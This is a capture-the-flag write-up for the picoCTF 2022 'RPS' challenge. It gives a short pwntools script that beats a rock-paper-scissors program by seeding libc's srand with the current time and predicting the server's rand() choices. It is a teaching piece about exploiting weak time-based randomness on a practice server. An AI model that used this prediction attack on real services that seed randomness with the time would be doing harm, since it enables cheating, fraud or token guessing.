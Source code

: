 ```yaml
---
name: RPS (2022)
event: Pico CTF 2022
category: Pwn
description: Writeup for RPS (Pwn) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# RPS

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/dAsujQ_OPEk/0.jpg)](https://youtu.be/dAsujQ_OPEk?t=196 "Pico CTF 2022: RPS")

## Description

> Here's a program that plays rock, paper, scissors against you. I hear something good happens if you win 5 times in a row.

## Solution

```py
from pwn import *
from time import time
from ctypes import CDLL

io = remote('saturn.picoctf.net', 53865)
context.log_level = 'debug'

libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

for i in range(5):
    io.recvuntil(b'program')
    io.sendline(b'1')

    sleep(1)  # Compensate for client-server

    libc.srand(int(time()))  # Call srand() with current time as seed
    computer_turn = libc.rand() % 3  # Predict computers turn

    # Computer players hand
    hands = ["rock", "paper", "scissors"]
    # Calculate winning move
    if hands[computer_turn] == 'rock':
        payload = b'paper'
    elif hands[computer_turn] == 'paper':
        payload = b'scissors'
    elif hands[computer_turn] == 'scissors':
        payload = b'rock'

    # Submit turn
    io.recvuntil(b':')
    io.sendline(payload)

io.interactive()  # Flag
```
